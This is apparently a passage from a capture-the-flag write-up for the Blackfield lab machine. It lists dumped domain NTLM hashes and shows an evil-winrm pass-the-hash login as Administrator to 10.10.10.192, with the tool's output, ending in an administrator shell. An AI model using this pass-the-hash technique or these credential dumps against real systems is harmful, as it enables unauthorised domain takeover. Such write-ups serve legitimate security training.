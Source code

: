 ```bash
BLACKFIELD.local\BLACKFIELD538365:1106:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD189208:1107:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
.
.
.
```

## Shell as Administrator

```bash
evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

Using the hash above we can get our shell as administrator and get our root flag.
